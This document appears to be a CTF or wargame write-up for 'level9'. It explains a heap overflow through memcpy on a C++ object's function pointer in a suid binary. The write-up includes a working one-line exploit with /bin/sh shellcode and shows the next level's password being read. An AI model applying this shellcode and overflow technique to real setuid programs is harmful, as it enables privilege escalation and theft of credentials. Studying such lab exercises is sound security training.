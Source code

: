 # Level9

## Context & Explanation
 * There is one file in our home, ```level9```, belonging to ```bonus0``` user, with suid.
 * Here's the decompiled source code we propose for this binary: [source.cpp](source.cpp)

 * We run the program with gdb and we observe that:
 	* In the `main()`
		* `_Znwj@plt()` is called to allocate `0x6c` of memory
		* `_ZN1NC1Ei()` is called to fill the previously allocated memory, with a function pointer pointer, and a value at the end.
		* We repeat a second time these 2 operations.
		* `_ZN1N13setAnnotationEPc()` is then called on object_1
			* a `memcpy()` is done on `av[1]`
		* Finally, the function pointer pointer of the 2nd object is called.

## Exploited vulnerability

* We will use a Buffer-Overflow attack on the `memcpy()` to make use of the 2nd function pointer pointer to execute a shellcode.

* The shellcode we used is a call to `system("/bin/sh")`

* Here is a visual representation memory layout : ![Layout](Layout_Objects.png)

## Resolution

```sh
./level9 `python -c "print('10a00408'.decode('hex') + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 79 +  '0ca00408'.decode('hex'))"

$ cd ..
$ cd bonus0
$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
